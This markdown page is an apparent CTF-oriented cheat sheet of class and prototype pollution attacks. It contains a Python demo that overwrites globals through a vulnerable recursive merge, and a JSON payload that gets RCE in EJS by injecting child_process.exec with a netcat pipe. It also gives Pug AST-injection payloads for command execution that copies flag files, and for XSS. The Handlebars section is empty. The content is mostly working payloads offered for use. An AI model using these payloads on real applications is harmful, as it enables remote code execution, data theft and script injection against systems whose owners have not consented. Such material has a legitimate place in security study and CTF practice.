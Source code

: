 
## Python class injection 

```python

class Feedback:
    def __init__(self):
        self.title = ""
        self.content = ""
        self.rating = ""
        self.referred = ""
        

# Vulenrable function
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)



secret= '13241341234'

injection = {"__class__":{"__init__":{"__globals__":{"flag":"hacked"}}}}
# feedback.__class__.__init__.__globals__['secret'] = 'hacked'
feedback = Feedback()
merge(injection, feedback)
print(flag)

```

# Javascript Prototype Pollution


## RCE in EjS 
- source [PoC-CVE-2024-33883](https://github.com/Grantzile/PoC-CVE-2024-33883)
- source [ejs-server-side-prototype-pollution-gadgets-to-rce](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)

### Exploit
```json
{
    "__proto__": {
        "client": 1,
        "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
    }
}
```


## AST Prototype Pollution

### Pug
- source [how-ast-injection-and-prototype-pollution-ignite-threats](https://rayepeng.medium.com/how-ast-injection-and-prototype-pollution-ignite-threats-abb165164a68)
- source [JS Prototype Chain Pollution and AST Injection Questions](https://rayepeng.net/JS-yuan-xing-lian-wu-ran-ji-AST-zhu-ru-de-ji-dao-ti-mu?locale=en)

#### How Attack works
```javascript
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

#### Exploit 
- [CVE-2020-36632](https://security.snyk.io/vuln/SNYK-JS-FLAT-596927)

**For RCE use line**
```json
{
"__proto__.block": {
"type": "Text",
"line":
"process.mainModule.require('child_process').execSync('cat /app/flag* > /app/static/f.txt')"
}
}
```

**For XSS use val**
this will chnage every value evualated by AST to payload 
```json
{
"artist.name":"Gingell",
"__proto__.block": {
"type": "Text",
"val":
"<script>alert(1)</script>')"
}
```

### Handlebars
- source [hacktricks ast-prototype-pollution-in-nodejs](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution#ast-prototype-pollution-in-nodejs)

```
```
